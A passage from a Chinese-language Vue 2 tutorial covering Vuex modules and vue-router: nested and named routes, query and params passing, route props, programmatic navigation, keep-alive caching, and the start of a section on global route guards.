      //该服务内容有问题 https://api.uixsj.cn/hitokoto/get?type=social
      axios.get("https://api.github.com/search/users?q=wang").then(
        (response) => {
          console.log(response);
          context.commit("ADD_PERSON", {id: nanoid(),name: response.data.items[0].login});
        },
        (error) => {
          alert(error.message);
        }
      );
    }
  },
  mutations: {
    //添加人员
    ADD_PERSON(state, value) {
      console.log("mutations中的ADD_PERSON被调用", state, value);
      state.personList.unshift(value);
    }
  },
  state: { personList: [{ id: "001", name: "张三" }] },
  getters: {
    //列表中第一个人的名字,这里的state是模块内部的state
    firstPersonName(state) {
      return state.personList[0].name;
    }
  }
};
```

`store.js`文件引入模块并配置

```js
//该文件用于创建Vuex最核心的store

//引入VueX，Vue,Vuex首字母大写更标准
import Vuex from "vuex";
import Vue from "vue";

//引入模块
import countOptions from "./count";
import personOptions from "./person";
//使用插件
Vue.use(Vuex);

//实例化并导出store对象
export default new Vuex.Store({
  //使用模块配置,每个模块中都有一套actions、mutations、state、getters
  modules: {
    countAbout: countOptions,
    personAbout: personOptions
  }
});
```

`Person.vue`文件 

```vue
<template>
  <div>
    <h1>人员列表</h1>
    <h3 style="color: red">Count组件求和为:{{ sum }}</h3>
    <h3>列表中第一个人的名字是：{{ firstPersonName }}</h3>
    <input type="text" placeholder="请输入名字" v-model="name" />
    <button @click="add">添加</button>
    <button @click="addWang">添加一个姓王的人</button>
    <button @click="addPersonServer">添加一个人来自服务器</button>
    <ul>
      <li v-for="p in personList" :key="p.id">{{ p.name }}</li>
    </ul>
  </div>
</template>

<script>
import { nanoid } from "nanoid";
export default {
  name: "Person",
  data() {
    return {
      name: ""
    };
  },
  //亲自写计算属性接收数据
  computed: {
    personList() {
      return this.$store.state.personAbout.personList;
    },
    sum() {
      // 读取对应模块下的属性
      return this.$store.state.countAbout.sum;
    },
    firstPersonName() {
      //获取getters中属性跟state不一样，它的属性名是personAbout/firstPersonName
      return this.$store.getters["personAbout/firstPersonName"];
    }
  },
  methods: {
    add() {
      const personObj = { id: nanoid(), name: this.name };
      //亲自调用方法触发mutations,模块化读取的写法
      this.$store.commit("personAbout/ADD_PERSON", personObj);
      //清空文本框
      this.name = "";
    },
    addWang() {
      const personObj = { id: nanoid(), name: this.name };
      //亲自调用方法触发actions,模块化读取的写法
      this.$store.dispatch("personAbout/addPersonWang", personObj);
      //清空文本框
      this.name = "";
    },
    addPersonServer() {
      //亲自调用方法触发actions,模块化读取的写法
      this.$store.dispatch("personAbout/addPersonServer");
    }
  }
};
</script>

<style></style>
```

`MyCount2.vue`跟上边一样，文件没有改变就不再重复复制了。这种模块化的写法才是vuex项目中最常用的。

## 二十一、路由(重点)

**路由route**就是一组`key-value`的对应关系，key是路径，value可能是`function函数`(后端请求)或`component组件`(前端请求)。

路由分类：

1. **后端路由**：value是`function`，用于处理客户端提交的请求。其工作过程是服务器接收到一个请求时，根据请求路径找到**匹配的函数**来处理请求，返回响应数据；
2. **前端路由**：value是`component`,用于展示页面内容。其工作过程是当浏览器的路径改变时，**对应的组件**就会显示。

多个路由，需要经过**路由器router**的管理。

Vue在的路由主要是为了实现`SPA(single page web application)`应用，也就是**单页面应用**。

**多页面应用**就是通过实现多个html页面之间来回跳转完成的，页面跳转会导致页面刷新。

**单页面应用**，也就是只有**一个完整的html页面**的应用，页面的内容切换是通过**改变浏览器中的路径**，一旦路径改变就会被**路由器**监测到(路由器是时刻监测路径的)，路由器就会按照配置好的**路由规则**进行**对应组件切换**。该效果不会刷新页面只会做**页面的局部更新**。数据通过ajax请求获取。

**路由规则**`/class=>班级组件`中的： `/class`路径就是key值，`班级组件`就是value值。

### 21.1 路由的基本使用

先尝试编写一个**多页面应用**案例,主要是两个页面切换,核心就是利用a标签的`href属性`进行页面跳转,页面内容基本一样，只是`panel-body`中的内容不同，以及`active样式`的切换。


`home.html`文件

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Vue APP</title>
    <link rel="stylesheet" href="../css/bootstrap.css" />
  </head>
  <body>
    <div>
      <div class="row">
        <div class="col-xs-offset-2 col-xs-8">
          <div class="page-header"><h2>Vue Router Demo</h2></div>
        </div>
      </div>
      <div class="row">
        <div class="col-xs-2 col-xs-offset-2">
          <div class="list-group">
            <!--原始使用a标签跳转多个页面,多页面应用-->
            <a class="list-group-item" href="./about.html">About</a>
            <a class="list-group-item active" href="./home.html">Home</a>
          </div>
        </div>
        <div class="col-xs-6">
          <div class="panel">
            <div class="panel-body">
              <h2>我是Home的内容</h2>
            </div>
          </div>
        </div>
      </div>
    </div>
  </body>
</html>
```

`about.html`文件

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Vue APP</title>
    <link rel="stylesheet" href="../css/bootstrap.css" />
  </head>
  <body>
    <div>
      <div class="row">
        <div class="col-xs-offset-2 col-xs-8">
          <div class="page-header"><h2>Vue Router Demo</h2></div>
        </div>
      </div>
      <div class="row">
        <div class="col-xs-2 col-xs-offset-2">
          <div class="list-group">
            <!--原始使用a标签跳转多个页面,多页面应用-->
            <a class="list-group-item active" href="./about.html">About</a>
            <a class="list-group-item" href="./home.html">Home</a>
          </div>
        </div>
        <div class="col-xs-6">
          <div class="panel">
            <div class="panel-body">
              <h2>我是About的内容</h2>
            </div>
          </div>
        </div>
      </div>
    </div>
  </body>
</html>
```

`vue-router`是vue的一个**插件库**，专门用来实现SPA应用。其使用方式就是：

1. 安装：`npm i vue-router@3`,vue2中只支持vue-router3版本以下的内容，要使用vue-router4版本就要使用vue3；

2. 引入并使用插件：`import VueRouter from "vue-router"` 、`Vue.use(VueRouter)`

3. 编写router配置项，也就是路由规则配置

   ```js
   //该文件专门用于创建整个应用的路由器
   import VueRouter from "vue-router";
   //引入路由要管理的组件
   import About from "../components/About";
   import Home from "@/components/Home";
   
   //创建并默认暴露一个路由器
   export default new VueRouter({
     //配置路由规则
     routes: [
       {
         path: "/about",
         component: About
       },
       {
         path: "/home",
         component: Home
       }
     ]
   });
   ```

4. 实现切换(active-class可配置高亮样式)

   `<router-link class="list-group-item" active-class="active" to="/home">Home</router-link>`

5. 指定展示位置 ` <router-view> </router-view>`

将多页面应用转化的单页面应用，使用路由与组件完成，页面样式就直接使用`bootstrap.css`完成。

编写`router.js`文件，其文件创建方法可以跟store一样，在src目录下创建`router文件夹`,然后在其中创建`index.js文件`。

```js
//该文件专门用于创建整个应用的路由器
import VueRouter from "vue-router";
//引入路由要管理的组件
import About from "../components/About";
import Home from "@/components/Home";

//创建并默认暴露一个路由器
export default new VueRouter({
  //配置路由规则
  routes: [
    {
      path: "/about",
      component: About
    },
    {
      path: "/home",
      component: Home
    }
  ]
});
```

编写`main.js`文件,核心是引入路由器并配置

```js
//引入Vue
import Vue from "vue";
//引入App
import App from "./App";
//引入vue-router
import VueRouter from "vue-router";
import router from "./router";

//关闭Vue的生产提示
Vue.config.productionTip = false;

//应用vue-router插件，就会新增一个全新的配置项router
Vue.use(VueRouter);

new Vue({
  el: "#app",
  render: (h) => h(App),
  // 配置路由器，它是router:router的简写
  router
});
```

编写`Home.vue`组件内容

```vue
<template>
  <h2>我是Home的内容</h2>
</template>

<script>
export default {
  name: "Home"
};
</script>
```

`About.vue`组件内容

```vue
<template>
  <h2>我是About的内容</h2>
</template>

<script>
export default {
  name: "About"
};
</script>
```

`App.vue`组件,配置路由核心是使用`router-link`与`router-view`标签

```vue
<template>
  <div>
    <div class="row">
      <div class="col-xs-offset-2 col-xs-8">
        <div class="page-header"><h2>Vue Router Demo</h2></div>
      </div>
    </div>
    <div class="row">
      <div class="col-xs-2 col-xs-offset-2">
        <div class="list-group">
          <!--原始html使用a标签跳转多个页面,多页面应用-->
          <!--  <a class="list-group-item active" href="./about.html">About</a>-->
          <!--  <a class="list-group-item" href="./home.html">Home</a>-->
          <!--vue中借助router-link标签实现路由的切换 to属性设置要跳转的路径 
              active-class属性表示该元素激活时的样式 设置为active-->
          <!-- vue最终编译完成后，router-link标签还是会被转化为a标签 -->
          <router-link class="list-group-item" active-class="active" to="/about">About</router-link>
          <router-link class="list-group-item" active-class="active" to="/home">Home</router-link>
        </div>
      </div>
      <div class="col-xs-6">
        <div class="panel">
          <div class="panel-body">
            <!--router-view确定视图的位置,跟插槽的slot效果差不多-->
            <router-view> </router-view>
          </div>
        </div>
      </div>
    </div>
  </div>
</template>

<script>
export default {
  name: "App"
};
</script>
```

### 21.2 路由几个注意点

路由的组件通常存放在`pages`文件夹，一般普通的组件通常存放再`components`文件夹中。一般组件就要自己写`<Banner />`组件标签


通过**切换**隐藏的路由组件，默认是会被**销毁**掉的，需要的时候会重新再去**挂载**。

每个组件都有自己的`$route`属性，里面存储着自己的路由信息，不同组件的`$route`属性是不同的。

整个应用只有**一个路由器router**,可以通过组件的`$router`属性获取到。


`Home.vue`文件

```vue
<template>
  <h2>我是Home的内容</h2>
</template>

<script>
export default {
  name: "Home",
  beforeDestroy() {
    console.log("Home组件即将被销毁。。。");
  },
  mounted() {
    console.log("Home组件被挂载。。。", this);
    //路由组件的vc实例上会多出两个新的属性 $route $router
    //$route中保存了路由规则相关信息
    console.log(this.$route);
    //$router中保存了整个应用的路由器，只有一个。保存了路由器一些有用的方法。
    console.log(this.$router);
    //验证
    console.log(window.aboutRoute === this.$route); //false
    console.log(window.aboutRouter === this.$router); //true
  }
};
</script>
```

`About.vue`文件

```vue
<template>
  <h2>我是About的内容</h2>
</template>

<script>
export default {
  name: "About",
  beforeDestroy() {
    console.log("About组件即将被销毁。。。");
  },
  mounted() {
    console.log("About组件被挂载。。。", this);
    //路由组件的vc实例上会多出两个新的属性 $route $router
    console.log(this.$route);
    console.log(this.$router);
    //验证
    window.aboutRoute = this.$route;
    window.aboutRouter = this.$router;
  }
};
</script>
```

### 21.3 嵌套(多级)路由

嵌套路由就是路由中还有路由，形成路由的嵌套。路由最多嵌套6层，一般4层路由就能满足大部分需求了。

配置多级路由的规则，`route.js`文件，使用`children`配置项：

```js
//该文件专门用于创建整个应用的路由器
import VueRouter from "vue-router";
//引入路由要管理的组件
import About from "../pages/About";
import Home from "@/pages/Home";
//引入子路由组件
import Message from "../pages/Message";
import News from "../pages/News";

//创建并默认暴露一个路由器
export default new VueRouter({
  //配置路由规则
  routes: [
    //一级路由
    {
      path: "/about",
      component: About
    },
    {
      path: "/home",
      component: Home,
      //配置子路由
      children: [
        {
          //这里的news路径不要写/news，因为路由插件遍历子路由时会添加/，如果写了路径就会变为//news
          path: "news",
          component: News
        },
        {
          path: "message",
          component: Message
        }
      ]
    }
  ]
});
```

编写跳转，`router-link`的`to`属性要写完整路径。

`Home.vue`文件

```vue
<template>
  <div>
    <h2>我是Home的内容</h2>
    <div>
      <ul class="nav nav-tabs">
        <li>
          <!-- 如果是多级路由，to中的路径就需要加上/home父级路由的路径才行 -->
         <router-link class="list-group-item" active-class="active" to="/home/news">News</router-link>
        </li>
        <li>
         <router-link class="list-group-item" active-class="active" to="/home/message">Message</router-link>
        </li>
      </ul>
      <router-view></router-view>
    </div>
  </div>
</template>

<script>
export default {
  name: "Home",
};
</script>
```

`Message.vue`文件

```vue
<template>
  <div>
    <ul>
      <li><a href="/message1">message001</a>&nbsp;&nbsp;</li>
      <li><a href="/message2">message002</a>&nbsp;&nbsp;</li>
      <li><a href="/message3">message003</a>&nbsp;&nbsp;</li>
    </ul>
  </div>
</template>

<script>
export default {
  name: "Message"
};
</script>
```

`News.vue`文件

```vue
<template>
  <ul>
    <li>news001</li>
    <li>news002</li>
    <li>news003</li>
  </ul>
</template>

<script>
export default {
  name: "News"
};
</script>
```

### 21.4 命名路由与路由传参

路由可以通过配置`name`属性来配置名称。配置了`name`属性的路由就叫命名路由。

路由配置`name`属性后可以简化一些路径配置的代码。路由命名的使用：

```js
routes: [
    //一级路由
    {
      //name属性值可随意，为了区别path这里就配置为guanyu
      name: "guanyu",
      path: "/about",
      component: About
    },
    {
      path: "/home",
      component: Home,
      //配置子路由
      children: [
        {
          //这里的news路径不要写/news，因为路由插件遍历子路由时会添加/，如果写了路径就会变为//news
          path: "news",
          component: News
        },
        {
          path: "message",
          component: Message,
          //三级路由
          children: [
            {
              //给路由命名
              name: "xiangqin",
              path: "detail",
              component: Detail
            }
          ]
        }
      ]
    }
]
```

简化跳转

```js
<!-- 简化前的完整路径 -->
<router-link to="/home/message/detail"> {{ m.title }} </router-link>
<!-- 简化后 -->
<router-link :to="{name:'xiangqin'}"> {{ m.title }} </router-link>
```

路由组件可以接收两种参数：

1. **query参数**:跟ajax请求的query参数一样，通过在路径最后添加参数`?id='xxx'&title='xxx'`；

   **传递参数**的两种方式：

   ```js
   <!-- 列表使用同一个组件，通过传递不同数据生成不同组件内容 -->
   <!-- 跳转路由并携带query参数,需要使用模板字符串才能读取m对象中的数据,注意外面的字符串""是必须的 -->
   <!-- to的字符串写法 -->
   <router-link :to="`/home/message/detail?id=${m.id}&title=${m.title}`">{{ m.title }}</router-link>&nbsp;&nbsp;
   
   <!-- to的对象写法 注意对象外面也有引号 推荐-->
   <router-link :to="{
       path:'/home/message/detail',
       query:{
          id:m.id,
          title:m.title
        }
   }">
       {{ m.title }}
   </router-link>
   ```

   **接收参数** `$route.query.id`或`$route.query.title `

2. **params参数**:跟ajax请求的params参数一样，通过在路径后面直接添加参数`/'xxx'/'xxx'`,然后在路由配置中使用**占位符**完成。

   **配置路由**，需要声明params参数

   ```js
   routes: [
       //一级路由
       {
         //name属性值可随意，为了区别path这里就配置为guanyu
         name: "guanyu",
         path: "/about",
         component: About
       },
       {
         path: "/home",
         component: Home,
         //配置子路由
         children: [
           {
             //这里的news路径不要写/news，因为路由插件遍历子路由时会添加/，如果写了路径就会变为//news
             path: "news",
             component: News
           },
           {
             path: "message",
             component: Message,
             //三级路由
             children: [
               {
                 //给路由命名
                 name: "xiangqin",
                 //进行params参数占位,跟nodejs中写法一样
                 path: "detail/:id/:title",
                 component: Detail
               }
             ]
           }
         ]
       }
   ]
   ```

   **传递参数**

   ```js
   <!-- 列表使用同一个组件，通过传递不同数据生成不同组件内容 -->
   <!-- 跳转路由并携带query参数,需要使用模板字符串才能读取m对象中的数据,注意外面的字符串""是必须的 -->
   <!-- to的字符串写法 -->
   <router-link :to="`/home/message/detail/${m.id}/${m.title}`">{{ m.title }}</router-link>&nbsp;&nbsp;
   
   <!-- to的对象写法 注意对象外面也有引号 推荐 必须使用name不能使用path-->
   <router-link :to="{
      name: 'xiangqin',
      params: {
         id: m.id,
         title: m.title
      }
   }">
       {{ m.title }}
   </router-link>
   ```

   **接收参数** `$route. params.id`或`$route. params.title `

实际使用案例，使用新增三级路由组件`Datail.vue`

`route.js`配置

```js
//该文件专门用于创建整个应用的路由器
import VueRouter from "vue-router";
//引入路由要管理的组件
import About from "../pages/About";
import Home from "@/pages/Home";
//引入子路由组件
import Message from "../pages/Message";
import News from "../pages/News";
//引入三级路由组件
import Detail from "../pages/Detail";

//创建并默认暴露一个路由器
export default new VueRouter({
  //配置路由规则
  routes: [
    //一级路由
    {
      //name属性值可随意，为了区别path这里就配置为guanyu
      name: "guanyu",
      path: "/about",
      component: About
    },
    {
      path: "/home",
      component: Home,
      //配置子路由
      children: [
        {
          //这里的news路径不要写/news，因为路由插件遍历子路由时会添加/，如果写了路径就会变为//news
          path: "news",
          component: News
        },
        {
          path: "message",
          component: Message,
          //三级路由
          children: [
            {
              //路由名称
              name: "xiangqin",
              //进行params参数占位,跟nodejs中写法一样
              path: "detail/:id/:title",
              component: Detail
            }
          ]
        }
      ]
    }
  ]
});
```

`Message.vue`文件

```vue
<template>
  <div>
    <ul>
      <!-- 通过数据生成列表 -->
      <li v-for="m in messageList" :key="m.id">
        <!-- 列表使用同一个组件，通过传递不同数据生成不同组件内容 -->
        <!-- 1. 跳转路由并携带query参数,需要使用模板字符串才能读取m对象中的数据,注意外面的字符串""是必须的 -->
        <!-- to的字符串写法 -->
        <!-- <router-link :to="`/home/message/detail?id=${m.id}&title=${m.title}`">{{ m.title }}</router-link>&nbsp;&nbsp; -->

        <!-- to的对象写法 推荐-->
        <!-- <router-link :to="{
          path:'/home/message/detail',
          query:{
            id:m.id,
            title:m.title
          }
         }">
          {{ m.title }}
          </router-link>&nbsp;&nbsp; -->

        <!-- 使用路由名称 -->
        <!-- <router-link :to="{
          name:'xiangqin',
          query:{
            id:m.id,
            title:m.title
          }
         }">
          {{ m.title }}
          </router-link>&nbsp;&nbsp; -->

        <!-- 2. 跳转路由并携带params参数,直接将数据写入路径，需要修改路由配置进行占位-->
        <!-- <router-link :to="`/home/message/detail/${m.id}/${m.title}`">{{ m.title }}</router-link>&nbsp;&nbsp; -->

        <!-- 使用对象的方式 如果是params参数，只能使用name，不能使用path配置路径-->
        <router-link
          :to="{
            name: 'xiangqin',
            params: {
              id: m.id,
              title: m.title
            }
          }"
        >
          {{ m.title }} 
        </router-link>&nbsp;&nbsp;
      </li>
    </ul>
    <hr />
    <router-view></router-view>
  </div>
</template>

<script>
export default {
  name: "Message",
  data() {
    return {
      messageList: [
        { id: "001", title: "消息001" },
        { id: "002", title: "消息002" },
        { id: "003", title: "消息003" }
      ]
    };
  }
};
</script>
```

`Detail.vue`文件

```vue
<template>
  <ul>
    <!-- 读取query参数 -->
    <li>消息编号:{{ $route.query.id }}</li>
    <li>消息标题:{{ $route.query.title }}</li>
    <!-- 读取params参数 -->
    <li>消息编号:{{ $route.params.id }}</li>
    <li>消息标题:{{ $route.params.title }}</li>
  </ul>
</template>

<script>
export default {
  name: "Detail",
  mounted() {
    console.log(this.$route.query); //query参数
    console.log(this.$route.params); //params参数
  }
};
</script>
```

### 21.5 路由的props配置

props配置作用是让路由组件**更方便的接收参数**。本身还是用于传递参数的，跟之前的组件传参类似。

其主要有三种配置写法：

1. props值为对象，该对象中的所有key-value都会以props的形式传给Detail组件 `props: { a: 1, b: "hello" }`;

2. props值为布尔值,若布尔值为true，就会把该路由组件收到的所有的params参数，以props的形式传给Detail组件,`props: true`;

3. props值为函数,是回调函数，函数参数就是$route的值，返回对象中的所有key-value都会以props的形式传给Detail组件

   ```js              
   props: function ($route) {
      return { id: $route.query.id, title: $route.query.title };
   }
   ```

`route.js`文件

```js
//该文件专门用于创建整个应用的路由器
import VueRouter from "vue-router";
//引入路由要管理的组件
import About from "../pages/About";
import Home from "@/pages/Home";
//引入子路由组件
import Message from "../pages/Message";
import News from "../pages/News";
//引入三级路由组件
import Detail from "../pages/Detail";

//创建并默认暴露一个路由器
export default new VueRouter({
  //配置路由规则
  routes: [
    //一级路由
    {
      //name属性值可随意，为了区别path这里就配置为guanyu
      name: "guanyu",
      path: "/about",
      component: About
    },
    {
      path: "/home",
      component: Home,
      //配置子路由
      children: [
        {
          //这里的news路径不要写/news，因为路由插件遍历子路由时会添加/，如果写了路径就会变为//news
          path: "news",
          component: News
        },
        {
          path: "message",
          component: Message,
          //三级路由
          children: [
            {
              //路由名称
              name: "xiangqin",
              //进行params参数占位,跟nodejs中写法一样
              path: "detail/:id/:title",
              component: Detail,
              //props有三种写法
              // 1. 值为对象，该对象中的所有key-value都会以props的形式传给Detail组件
              // 这种只能传固定值，使用很少
              // props: { a: 1, b: "hello" }
              // 2. 值为布尔值,若布尔值为true，就会把该路由组件收到的所有的params参数，以props的形式传给Detail组件
              // props: true
              // 3. 值为函数,是回调函数，函数参数就是$route的值，返回对象中的所有key-value都会以props的形式传给Detail组件
              // 该方式可以接收params参数和query参数的值
              // props: function ($route) {
              //   return { id: $route.query.id, title: $route.query.title };
              // }
              //简略写法，并使用双重对象解构赋值,又叫解构赋值的连续写法
              props({ query: { id, title } }) {
                return { id, title };
              }
            }
          ]
        }
      ]
    }
  ]
});
```

`Detail.vue`文件

```vue
<template>
  <ul>
    <!-- 读取params参数 -->
    <li>消息编号:{{ $route.params.id }}</li>
    <li>消息标题:{{ $route.params.title }}</li>
    <li>a:{{ a }}</li>
    <li>b:{{ b }}</li> 
    <!-- 该配置可以简化params参数的读取 -->
    <li>消息编号:{{ id }}</li>
    <li>消息标题:{{ title }}</li>
  </ul>
</template>

<script>
export default {
  name: "Detail",
  //   props: ["a", "b"],
  props: ["id", "title"],
  mounted() {
    console.log(this.$route.query); //query参数
    console.log(this.$route.params); //params参数
  }
};
</script>

```

### 21.6 router-link的replace属性

该属性的作用是控制路由跳转时**操作浏览器历史记录的模式**。

浏览器的历史记录有两种写入方式：

1. `push`模式：push是追加历史记录，路由跳转的时候默认为push。；
2. `replace`模式：replace是替换当前记录。

`router-link`标签默认模式是`push`模式，就是**每有一条记录都会压入**，这样只需调整指针就可来回切换记录。

如果把`router-link`标签的模式配置为`replace`模式，则切换到该标签时，该标签记录就会**覆盖**上一条记录。

```js
 <!-- 配置replace属性，配置为true就是开启replace模式 -->
<router-link :replace="true" class="list-group-item" active-class="active" :to="{name:'guanyu'}">About</router-link>
 <!-- 简写replace属性 -->
<router-link replace class="list-group-item" active-class="active" to="/home">Home</router-link>
```

### 21.7 编程式路由导航

之前我们实现导航区功能时，都是使用`<router-link>`的to属性实现路由跳转的，**编程式路由导航**就是不借助`<router-link>`实现**路由跳转**，让路由跳转更加灵活。具体编码：核心就是利用`$router`对象上的`push`与`replace`方法。

```js
this.$router.push({
      name:'xiangqin',
      params:{
        id:xxx,
        title:xxx
      }
})

this.$router.replace({
      name:'xiangqin',
      params:{
        id:xxx,
        title:xxx
      }
})

this.$router.forward(); //前进
this.$router.back(); //后退
this.$router.go(-2); //后退2步
```

编程式路由导航常用于实现**非a标签**实现路由导航比如按钮，或者需要等3秒后**自动跳转**等场景。

具体使用案例，`Message.vue`文件，实现按钮的push和replace跳转

```vue
<template>
  <div>
    <ul>
      <!-- 通过数据生成列表 -->
      <li v-for="m in messageList" :key="m.id">
        <!-- 使用对象的方式 如果是params参数，只能使用name，不能使用path配置路径-->
        <router-link
          :to="{
            name: 'xiangqin',
            params: {
              id: m.id,
              title: m.title
            }
          }"
        >
          {{ m.title }} </router-link
        >&nbsp;&nbsp;
        <!-- 使用按钮完成路由跳转 -->
        <button @click="pushShow(m)">push查看</button>
        <button @click="replaceShow(m)">replace查看</button>
      </li>
    </ul>
    <hr />
    <router-view></router-view>
  </div>
</template>

<script>
export default {
  name: "Message",
  data() {
    return {
      messageList: [
        { id: "001", title: "消息001" },
        { id: "002", title: "消息002" },
        { id: "003", title: "消息003" }
      ]
    };
  },
  methods: {
    pushShow(m) {
      //打印路由器对象，它是VueRouter构造函数的实例对象，常用的方法都是放在其原型对象__proto__上的,例如push,replace,go等
      console.log(this.$router);
      //push跳转，其参数也是配置对象，跟router-link中的配置一样
      //m获取通过函数传参
      //push是压栈记录跳转
      this.$router.push({
        name: "xiangqin",
        query: {
          id: m.id,
          title: m.title
        }
      });
    },
    replaceShow(m) {
      //replace跳转，其参数也是配置对象，跟router-link中的配置一样
      //m获取通过函数传参
      //replace是替换上一条记录跳转
      this.$router.replace({
        name: "xiangqin",
        query: {
          id: m.id,
          title: m.title
        }
      });
    }
  }
};
</script>
```

`Banner.vue`文件,实现前进后退功能

```vue
<template>
  <div class="col-xs-offset-2 col-xs-8">
    <div class="page-header">
      <h2>Vue Router Demo</h2>
      <button @click="back">后退</button>
      <button @click="forward">前进</button>
      <button @click="testGo(-2)">后退2步</button>
    </div>
  </div>
</template>

<script>
export default {
  // Banner是普通组件,也叫一般组件
  name: "Banner",
  methods: {
    //后退一步功能，跟浏览器上的后退按钮效果一样
    back() {
      this.$router.back();
    },
    //前进一步功能，跟浏览器上的后退按钮效果一样
    forward() {
      this.$router.forward();
    },
    //跳转特定步数，根据传入的值决定，如果值为-2就是后退两步，2就是前进2步
    testGo(value) {
      this.$router.go(value);
    }
  }
};
</script>
```

效果


### 21.8 缓存路由组件

之前我们切换路由，被切换(隐藏)的组件是会被销毁的。如果需要被切换(隐藏)的组件**保持挂载，不被销毁**，就要使用**缓存路由组件**。

具体编码,核心就是利用`keep-alive`标签包裹`router-view`标签,`include`设置需要保持的**组件名**，因为router-view中的组件可能不止一个的原因。

```vue
<keep-alive include='News'>
    <router-view></router-view>
</keep-alive>
```

具体使用案例，`Home.vue`文件

```vue
<template>
  <div>
    <h2>我是Home的内容</h2>
    <div>
      <ul class="nav nav-tabs">
        <li>
          <!-- 如果是多级路由，to中的路径就需要加上/home父级路由的路径才行 -->
          <router-link
            class="list-group-item"
            active-class="active"
            to="/home/news"
            >News</router-link
          >
        </li>
        <li>
          <router-link
            class="list-group-item"
            active-class="active"
            to="/home/message"
            >Message</router-link
          >
        </li>
      </ul>
      <!-- News组件最终是展示在Home组件中的,Message组件也是一样 -->
      <!-- include中配置的是组件名称 不写就是缓存全部组件 -->
      <keep-alive include="News">
        <router-view></router-view>
      </keep-alive> 
      <!-- 如果要配置多个组件，需要使用数组，主要：配置和""包裹 -->
      <keep-alive :include="['News', 'Message']">
        <router-view></router-view>
      </keep-alive>
    </div>
  </div>
</template>

<script>
export default {
  //组件名
  name: "Home"
};
</script>
```

`News.vue`文件

```vue
<template>
  <ul>
    <!-- 利用缓存组件保存input输入的内容 -->
    <li>news001<input type="text" /></li>
    <li>news002<input type="text" /></li>
    <li>news003<input type="text" /></li>
  </ul>
</template>

<script>
export default {
  //组件名
  name: "News",
  beforeDestroy() {
    //被销毁的组件虚拟DOM就会消失，再次进入就是重新挂载形成新的虚拟DOM,因此无法保存input中的内容
    console.log("News组件即将被销毁了");
  }
};
</script>
```

效果


### 21.9 路由组件的生命周期函数

路由组件所独有的两个生命周期函数，用于捕获**路由组件的激活状态**:

+ `activated`函数是路由组件被激活时触发；
+ `deactivated`函数是路由组件被失活时触发。

具体使用案例,`News.vue`文件，使用默认的生命周期函数无法完成效果因此才使用路由组件的生命周期函数。

```vue
<template>
  <ul>
    <!--  -->
    <li :style="{ opacity }">周期性变化透明度的内容</li>
    <!-- 利用缓存组件保存input输入的内容 -->
    <li>news001<input type="text" /></li>
    <li>news002<input type="text" /></li>
    <li>news003<input type="text" /></li>
  </ul>
</template>

<script>
export default {
  name: "News",
  data() {
    return {
      opacity: 1
    };
  },
  // beforeDestroy() {
  //   //被销毁的组件虚拟DOM就会消失，再次进入就是重新挂载形成新的虚拟DOM,因此无法保存input中的内容
  //   console.log("News组件即将被销毁了");
  //   clearInterval(this.timer);
  // },
  // mounted() {
  //   this.timer = setInterval(() => {
  //     //如果News组件使用了缓存，该定时器就会一直执行
  //     console.log("定时器在执行");
  //     this.opacity -= 0.01;
  //     if (this.opacity <= 0) this.opacity = 1;
  //   }, 16);
  // }

  //使用路由组件专用的生命周期函数，解决上述问题
  //组件激活时调用的函数,激活就是组件从没有展示到展示时
  activated() {
    console.log("News组件被激活了");
    this.timer = setInterval(() => {
      //如果News组件使用了缓存，该定时器就会一直执行
      console.log("定时器在执行");
      this.opacity -= 0.01;
      if (this.opacity <= 0) this.opacity = 1;
    }, 16);
  },

  //组件被隐藏失活时调用的函数，失活就是组件从展示到没有展示时
  deactivated() {
    console.log("News组件被失活了");
    clearInterval(this.timer);
  }
};
</script>
```

## 二十二、路由守卫(重点)

路由守卫的作用是**对路由进行权限控制**，也就是鉴权或者拦截器。其主要分为：

1. **全局路由守卫**又分为两种：

   + **全局前置路由守卫**`beforeEach`：初始化的时候调用、每次**路由切换之前**被调用，这时路径是不会改变的。

     ```js
     //最简单的前置路由守卫，没有拦截，全部的放行
     //回调函数接收三个参数，to 要切换去的目标路由route对象 from 目前所在的路由route对象  next 放行函数
     router.beforeEach((to, from, next) => {
       console.log("about=>home", to, from);
       console.log(next);
       next();
     });
     ```

     参数内容打印结果

     
     
     案例：利用在localStroage内容中手动存储`user:zhangsan`进行鉴权模拟，其中只对news和message鉴权，其他的不用。
     
     `route.js`文件
     
     ```js
     //该文件专门用于创建整个应用的路由器
     import VueRouter from "vue-router";
     //引入路由要管理的组件
     import About from "../pages/About";
     import Home from "@/pages/Home";
     //引入子路由组件
     import Message from "../pages/Message";
     import News from "../pages/News";
     //引入三级路由组件
     import Detail from "../pages/Detail";
     
     //创建并默认暴露一个路由器
     const router = new VueRouter({
       //配置路由规则 给每一个路由都添加name属性
       routes: [
         //一级路由
         {
           //name属性值可随意，为了区别path这里就配置为guanyu
           name: "guanyu",
           path: "/about",
           component: About
         },
         {
           name: "zhuye",
           path: "/home",
           component: Home,
           //配置子路由
           children: [
             {
               name: "xinwen",
               path: "news",
               component: News
             },
             {
               name: "xiaoxi",
               path: "message",
               component: Message,
               //三级路由
               children: [
                 {
                   //路由名称
                   name: "xiangqin",
                   //进行params参数占位,跟nodejs中写法一样
                   path: "detail",
                   component: Detail,
                   props({ query: { id, title } }) {
                     return { id, title };
                   }
                 }
               ]
             }
           ]
         }
       ]
     });
     
     //全局前置路由守卫，初始化的时候和每次路由切换之前，vue都会帮你调用配置的回调函数,这时路径是不会改变的
     //回调函数接收三个参数，to 要切换去的目标路由route对象 from 目前所在的路由route对象  next 放行函数
     router.beforeEach((to, from, next) => {
       //只有去news和message时才鉴权,可以用path或者name判断
       if (to.path === "/home/news" || to.name === "xiaoxi") {
         if (localStorage.getItem("user") === "zhangsan") {
           next();
         } else {
           alert("用户名不是zhangsan，无法访问");
         }
       } else {
         //其他的不要鉴权
         next();
       }
     });
     
     export default router;
     ```
     
     案例优化,利用`meta`属性创建自定义属性，用于标识本路由是否需要鉴权。`meta`叫**路由元信息**，专门用于程序员自定义属性
     
     > 注意：
     >
     > 没在meta中配置的属性router构造函数是不会认的,vc实例上的$route中是没有该属性的。
     
     ```js
     //该文件专门用于创建整个应用的路由器
     import VueRouter from "vue-router";
     //引入路由要管理的组件
     import About from "../pages/About";
     import Home from "@/pages/Home";
     //引入子路由组件
     import Message from "../pages/Message";
